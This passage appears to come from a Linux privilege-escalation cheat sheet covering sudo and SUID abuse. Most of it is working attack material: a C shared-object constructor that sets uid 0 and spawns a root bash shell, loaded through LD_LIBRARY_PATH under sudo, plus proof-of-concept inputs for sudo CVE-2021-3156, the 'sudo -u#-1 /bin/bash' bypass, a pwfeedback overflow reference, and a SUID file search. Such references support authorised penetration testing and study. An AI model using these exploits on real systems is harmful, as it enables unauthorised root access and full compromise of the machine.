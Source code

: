 ```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```
ldd /usr/sbin/binary # check shared libraries used by the program
gcc -o /tmp/lib_name.so.1 -shared -fPIC /tmp/library_path.c # create a shared object with the same name as one of the listed libraries (lib_name.so.1)
sudo LD_LIBRARY_PATH=/tmp binary # set the LD_LIBRARY_PATH environment variable to /tmp (where the compiled shared object was put)
```


- Sudo < 1.8.2-1.8.31p2 & 1.9.0-1.9.5p1 Baron Samedit, CVE-2021-3156 : https://github.com/worawit/CVE-2021-3156 or https://github.com/blasty/CVE-2021-3156

```
# PoC
sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```

- Sudo < 1.8.27 Security Bypass (!root), CVE-2019-14287 : https://www.exploit-db.com/exploits/47502

```
sudo -u#-1 <command>
sudo -u#-1 /bin/bash
```

- Sudo < 1.8.26 Buffer Overflow (pwfeedback) / CVE-2019-18634 : https://github.com/saleemrashid/sudo-cve-2019-18634

**pwfeedback** is the option that print the char '*' when you type your password when using sudo.

```
cat /etc/sudoers # The buffer overflow is possible if pwfeedback is set in /etc/sudoers
gcc exploit.c -o exploit
```

#### SUID / SGID

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

- Look on GTFOBins : https://gtfobins.github.io/
- Look for known exploits

- Shared object injection
